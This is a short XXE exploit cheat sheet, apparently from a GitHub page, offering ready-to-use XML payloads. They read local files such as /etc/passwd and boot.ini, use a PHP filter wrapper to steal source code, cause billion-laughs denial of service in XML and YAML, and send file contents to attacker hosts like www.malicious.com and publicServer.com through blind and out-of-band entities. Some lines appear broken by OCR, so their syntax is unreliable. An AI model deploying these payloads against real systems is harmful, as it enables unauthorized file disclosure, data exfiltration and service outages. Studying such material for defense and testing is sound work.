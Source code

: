 # XXE Templates

The following are common templates that you can use to exploit XXE vulnerabilities and
easily show the impact of the vulnerability:

Basic test:

    <!--?xml version="1.0" ?-->
    <!DOCTYPE replace [<!ENTITY example "Doe"> ]>
        <userInfo>
            <firstName>Juan</firstName>
            <lastName>&example;</lastName>
        </userInfo>

Classic XXE:

    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data (#ANY)>
    <!ENTITY file SYSTEM "file:///etc/passwd">
    ]>
    <data>&file;</data>
    <?xml version="1.0" encoding="ISO-8859-1"?>
        <!DOCTYPE foo [
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
        <!ELEMENT foo ANY >
        <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>

Classic XXE Base64 encoded:

    <!DOCTYPE test [ <!ENTITY % init SYSTEM
    "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init;
    ]><foo/>

A PHP wrapper inside an XXE:

    <!DOCTYPE replace [<!ENTITY xxe SYSTEM
    "php://filter/convert.base64-encode/resource=index.php"> ]>
        <contacts>
            <contact>
            <name>Jean &xxe; Dupont</name>
            <phone>00 11 22 33 44</phone>
            <adress>42 rue du CTF</adress>
            <zipcode>75000</zipcode>
            <city>Paris</city>
            </contact>
        </contacts>
    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY % xxe SYSTEM "php://filter/convert.base64-
    encode/resource=http://10.0.0.3" >
    ]>
    <foo>&xxe;</foo>

Followed by a DoS:

    <!DOCTYPE data [
    <!ENTITY a0 "dos" >
    <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
    <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
    <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
    <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
    ]>
    <data>&a4;</data>
    a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
    b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
    c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
    d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
    e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
    f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
    g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
    h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
    i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]

Blind XXE:

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY % xxe SYSTEM "file:///etc/passwd" >
    <!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
    ]
    >
    <foo>&callhome;</foo>

XXE OOB Attack (Yunusov, 2013):

    <?xml version="1.0" encoding="utf-8"?>
    <!DOCTYPE data SYSTEM
    "http://publicServer.com/parameterEntity_oob.dtd">
    <data>&send;</data>
    File stored on http://publicServer.com/parameterEntity_oob.dtd
    <!ENTITY % file SYSTEM "file:///sys/power/image_size">
    <!ENTITY % all "<!ENTITY send SYSTEM
    'http://publicServer.com/?%file;'>">
    %all;

XXE inside SOAP:

    <soap:Body>
        <foo>
            <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM
            "http://x.x.x.x:22/"> %dtd;]><xxx/>]]>
        </foo>
    </soap:Body>


